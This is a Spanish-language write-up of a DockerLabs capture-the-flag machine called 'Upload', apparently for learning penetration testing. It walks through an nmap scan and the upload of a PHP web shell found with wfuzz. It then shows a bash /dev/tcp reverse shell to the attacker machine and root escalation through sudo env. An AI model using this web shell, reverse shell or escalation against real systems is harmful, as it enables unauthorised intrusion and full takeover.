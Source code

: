 ![image](imgs/upload-banner.png)

>[Maquina](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)   \   [Dockerlabs](https://dockerlabs.es/)


## Reconocimiento

Comenzamos con un escaneo de `nmap` a todos los puertos de la maquina vulnerable en busca de puertos abiertos.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.2 -oG allPorts
________________________________________________________________

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Solo hay un puerto abierto, el **puerto 80**. Este corresponde a un servicio http(Hyper Text Transfer Protocol) o servicio web en pocas palabras.

Ahora hacemos un segundo escaneo con `nmap` sobre este puerto abierto con un conjunto de scripts basicos de reconocimientos que trae por defecto nmap con el parametro `-sC` he incluimos el parametro `-sV` para que nos detecte la version del servicio que corre en dicho puerto. Estos dos se pueden escribir como `-sCV`.

```shell
nmap -p80 -sCV 172.17.0.2 -oN targeted
______________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
En los resultados del escaneo podemos ver que dentro del **puerto 80** se aloja una pagina web que, tal parece, nos deja subir archivos al servidor.

Visualizamos la pagina web.

![image](imgs/upload-img1.png)

Al tener la oportunidad de subir archivos a una web, en lo primero que pensariamos es en subir un archivo *php* con el que podamos ejecutar comandos dentro de la maquina atraves de un paramentro definido en el script. Esto sera asi en caso de que la maquina no aplique ningun tipo de sanitizacion sobre los tipos de archivos que se pueden subir.

Creamos un archivo *php* con un paramentro `cmd` al cual le pasaremos los comandos que deceemos ejecutar.
```shell
echo "<?php system(\$_GET['cmd']); ?>" >> test.php
```

El archivo se logra subir sin ningun problema por lo que, no se esta aplicando ningun tipo de sanitizacion en el servidor.

Ahora debemos encontrar la ruta en donde ha sido guardado nuestro archivo. Para ello, haremos uso de `wfuzz` para encontrar esa ruta en donde fue guardado nuestro archivo. Con el parametro `--hc=404` excluimos todos las respuestas HTTP con codigo 404 (Not Found) que pueda regresar el servidor.

```shell
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://172.17.0.2/FUZZ
________________________________________________________________________________________________________________
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/FUZZ
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        53 L     104 W      1361 Ch     "# directory-list-2.3-big.txt"
...
000000164:   301        9 L      28 W       310 Ch      "uploads"
```

`Wfuzz` nos ha econtrado un directorio llamado **"uploads"**.

Si revisamos ese directorio podremos ver que ahi se encuntra alojado nuestro archivo *test.php*.

![image](imgs/upload-img2.png)

Nos dirijimos directamente atraves de la URL a nuestro archivo php y hacemos un llamado al parametro que predefinimos anteriormente para que ejecute el comando `id` en la maquina.

```
http://172.17.0.2/uploads/test.php?cmd=id
```

![image](imgs/upload-img3.png)
Al hacer esto podremos observar la respuesta del servidor ante el comando `id` por lo que el archivo funciona y el servidor interpreta de forma correcta las peticiones hechas atraves del archivo php. Sabiendo esto, podemos intentar entablar una revershell del servidor a nuestra maquina atacante. 

## Explotacion

Nos colocamos en escucha con `netcat` por el **puerto 443** en espera de la conexion.
```shell
nc -nlvp 443
```
Y atraves del parametro `cmd` de nuestro archivo le hacemos la peticion al servidor para que establezca una conexion con nuestra maquina atacante. Cambiamos el caracter `&` por su expresion en URL(`%26`), para que pueda ser interpretado por el servidor:
```shell
http://172.17.0.2/uploads/test.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```
![image](imgs/upload-img4.png)
Y hemos logrado ganar acceso como el usuario *www-data*.

## Escalada de privilegios

Ejecutamos un `sudo -l` para ver si existe algun comando que podamos ejecutar con altos privilegios.

```shell
sudo -l
________________________
...
User www-data may run the following commands on 41e845320485:
    (root) NOPASSWD: /usr/bin/env
```
Vemos que el usuario *www-data* puede ejecutar `/usr/bin/env` como *root* sin necesidad de proporcionar alguna credencial. Por ende, ejecutamos una **bash** atraves del comando `env` como *root*.
```shell
sudo env /bin/bash
```

Y comprobamos con el comando `whoami` o `id` que ya somos usuario *root*.

![image](imgs/upload-img5.png)

##

De esta forma hemos resuelto la maquina Upload de DockerLabs y tambien he subido mi primer writeup.






